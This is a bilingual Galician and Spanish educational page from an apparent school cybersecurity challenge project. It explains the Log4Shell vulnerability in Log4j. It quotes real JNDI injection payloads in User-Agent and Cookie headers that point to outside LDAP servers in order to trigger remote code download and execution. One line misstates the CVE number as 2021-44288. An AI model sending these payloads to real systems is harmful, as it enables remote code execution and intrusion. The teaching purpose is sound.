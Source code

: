 ### Log4Shell

O 9 de decembro de 2021 faise pública a vulnerabilidade **CVE-2021-44228** (tamén coñecida como **Log4shell**). Trátase dunha vulnerabilidade que **permite a execución remota de código (RCE)**, que afecta á librería de software de código aberto Log4j, desenvolta en linguaxe Java, mantida por *Apache Software Foundation* e moi utilizada no software empresarial Java para a escritura de logs.

Debido ao amplo uso de Log4j, o sinxelo que é explotar a vulnerabilidade e que permite ao atacante a execución de comandos no equipo afectado (para gañar privilexios de administrador,  exfiltrar información, minado de  criptomonedas, …), considérase á CVE-2021-44288 como unha **vulnerabilidade de nivel crítico**.

Os atacantes lanzan peticións maliciosas coa seguinte estrutura: `${jndi:ldap://<servidor do atacante>/<payload>}` ou `${jndi:dns://<servidor do atacante>/<payload>}`. Este tipo de peticións ao ser procesadas por Log4j provocan que o equipo vítima conéctase ao servidor do atacante, descarga o payload e execútao. A continuación pódense ver algúns exemplos de peticións maliciosas incrustadas en campos do protocolo HTTP:
  
`User-Agent: ${jndi:ldap://2.57.121.36:8000/mss}`
  
`Cookie: ${jndi:ldap://45.83.64.1/securityscan-3g32njrlbok56r5i}`

Tras a publicación da vulnerabilidade, o GovCERT.ch (Computer Emergency Response Team) de Suíza publicou a seguinte imaxe que resume o proceso de ataque e as medidas de defensa: 
  
<h3 class="text-center">
  <img class="w-100 mx-auto d-block" style="max-width: 1024px;padding: 5px;" src="../imagenes/log4shell.png" /></h3>
<hr>

El 9 de diciembre de 2021 se hace pública la vulnerabilidad **CVE-2021-44228** (también conocida como **Log4shell**). Se trata de una vulnerabilidad que **permite la ejecución remota de código (RCE)**, que afecta a la librería de software de código abierto Log4j, desarrollada en lenguaje Java, mantenida por Apache Software Foundation y muy utilizada en el software empresarial Java para la escritura de logs. Debido al amplio uso de Log4j, lo sencillo que es explotar la vulnerabilidad y que permite al atacante la ejecución de comandos en el equipo afectado (para ganar privilegios de administrador, exfiltrar información, minado de criptomonedas, …), se considera a CVE-2021-44288 como una **vulnerabilidad de nivel crítico**.

Los atacantes lanzan peticiones maliciosas con la siguiente estructura: `${jndi:ldap://<servidor del atacante>/<payload>}` o `${jndi:dns://<servidor do atacante>/<payload>}`. Este tipo de peticiones al ser procesadas por Log4j provocan que el equipo víctima se conecte al servidor LDAP del atacante, se descargue el payload y lo ejecute. A continuación se pueden ver algunos ejemplos de peticiones maliciosas incrustadas en campos del protocolo HTTP:
  
`User-Agent: ${jndi:ldap://2.57.121.36:8000/mss}`

`Cookie: ${jndi:ldap://45.83.64.1/securityscan-3g32njrlbok56r5i}`

Tras la publicación de la vulnerabilidad, el GovCERT.ch (Computer Emergency Response Team) de Suiza publicó la anterior imagen que resume el proceso de ataque y las medidas de defensa

---
<br>
<table align="center" cellspacing="50">
<tr>
   <td><h1 align=center><a href="https://www.iessanclemente.net/" target="_blank">IES San Clemente</a></h1></td>
   <td><h1 align=center><a href="https://www.cifprodolfoucha.es/"  target="_blank">CIFP Rodolfo Ucha Piñeiro</a></h1></td>
</tr>
<tr>
    <td><a href="https://www.edu.xunta.gal/" target="_blank"><img class="w-100 mx-auto d-block" style="max-width: 250px;padding: 5px;" src="../imagenes/logo_xunta_positivo.png" /></a></td>
    <td><a href="https://www.edu.xunta.gal/fp/convocatoria-innovacion-2022" target="_blank"><img class="w-100 mx-auto d-block" style="max-width: 250px;padding: 5px;" src="../imagenes/composicion_formacion_profesional_innova.png" /></a></td>
</tr>
</table>
      <p> </p>
      <h6>Actividade desenvolvida dentro do proxecto "Plataforma de retos de ciberseguridade. A gamificación no proceso de adquisición de competencias no ámbito da ciberseguridade", financiado na convocatoria de premios para o desenvolvemento de proxectos de innovación na FP do ano 2022.</h6>

